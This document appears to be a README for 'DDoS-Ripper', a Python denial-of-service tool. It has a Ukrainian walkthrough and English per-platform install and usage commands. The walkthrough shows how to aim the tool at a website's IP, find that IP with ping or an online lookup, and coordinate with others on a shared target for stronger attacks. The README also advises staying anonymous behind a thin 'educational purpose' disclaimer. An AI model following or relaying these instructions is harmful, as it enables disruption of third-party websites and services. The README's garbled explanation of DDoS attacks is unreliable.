 # DDoS-Ripper

Інструкція як використовувати DDoS-Ripper для DDoS атаки

Необхідно мати встановленим:
> python3 (Скачати можна на сайті https://www.python.org/downloads/ АБО в MICROSOFT STORE) 

Склонуйте цей репозиторій до себе на ПК бажано в папку `C:\Users\<YOUR USER NAME>`
(Для тих хто не має GIT BASH склонувати проект можна скачавши архів з ним. Нажміть на зелену кнопку "CODE" і виберівть "Download ZIP", розархівувати)

1. Після встановлення Python3 і клонування проекту, нажимаємо `WIN + R` > прописуємо `cmd` . Повинна появитись командна строка. 
2. Прописуємо шлях до нашої папки командою "`cd <назва папки>`". По стандарту початкова папка командної строки є `C:\Users\<YOUR USER NAME>` Тому прописуємо "`cd DDos-Ripper`"
3. Зараз ми знаходимось в папці з проектом і потрібно його запустити командою `python3 DRipper.py`
4. Якщо все зроблено добре запуститься проект і вам потрібно буде вказати командою `python3 DRipper.py -s <IP 0.00.00.00> -t 135` на який сайт здійснювати DDoS атаку. 
5. Дізнатись IP сайту можна легко по сервісам в інтернеті до прикладу https://ipinfo.info/html/ip_checker.php Або подібних. 
6. Також є простий спосіб через командну строку "`ping <SITE URL>`" 
7. Після активації DDoS-Ripper термінал НЕ можна згортати і закривати
8. Групуйтесь із іншими людьми для більш ефективних атак вибираючи одну ціль. 


# What is a DDoS Attack?
A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices.
From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

## NOTE (Please, make sure you have installed python 3 )

![dddd](https://user-images.githubusercontent.com/49250151/96265488-57e53d00-0f7a-11eb-8936-ce2e9a2c42cd.PNG)

## For Termux
To use the DRipper type the following commands in Termux:

`pkg install git -y`

`pkg install python -y`

`pkg install python3 -y`

`git clone https://github.com/palahsu/DDoS-Ripper.git`

`cd DDoS-Ripper`
`$ ls`

`$ python3 DRipper.py` 

## USGAE
`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## For Debian-based GNU/Linux distributions
To use the application, type in the following commands in GNU/Linux terminal.

`sudo apt install git`
`git clone https://github.com/palahsu/DDoS-Ripper.git`
`cd DDoS-Ripper`
`$ ls`
`$ python3 DRipper.py` OR `python2 DRipper.py`

## For Windows

`git clone https://github.com/palahsu/DDoS-Ripper`

`cd DDoS-Ripper`
` ls`

`python3 DRipper.py` OR `python DRipper.py`

`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## For MacOS

Install Brew and Install dependencies (python 3)

# Note:
If you find any problems than please write on issue github and to our Telegram Group. Don't use for revenge! Make sure your anonymity!
It's made for just testing purpose.
We are not responsible for any abuse or damage caused by this program. Only for Educational Purpose.
Thanks.
 
## Requirments ▶

●🖥Linux OS( Kali 🐉 Ubuntu )

●📱Termux >

●🖥Windows

●🖥MAC



Додатково від автора:
# Modified by @palahsu

For any kind of help, support, payment, suggetion and request ask me on Telegram:

<a href="https://t.me/CyberClans"><img src="https://img.shields.io/badge/Telegram-Group%20Telegram%20Join-blue.svg?logo=telegram"></a>

Or Facebook <a href="https://www.facebook.com/aduri.knox01/"><img src="https://img.shields.io/badge/Facebook-Follow%20on%20Facebook-blue.svg?logo=facebook"></a>

## Follow on:
<p align="left">
<a href="https://github.com/palahsu"><img src="https://img.shields.io/badge/GitHub-Follow%20on%20GitHub-inactive.svg?logo=github"></a>
</p><p align="left">
<a href="https://www.facebook.com/aduri.knox01/"><img src="https://img.shields.io/badge/Facebook-Follow%20on%20Facebook-blue.svg?logo=facebook"></a>
</p><p align="left">
<a href="https://t.me/AD0000000"><img src="https://img.shields.io/badge/Telegram-Contact%20Telegram%20Profile-blue.svg?logo=telegram"></a>
</p><p align="left"> 
 
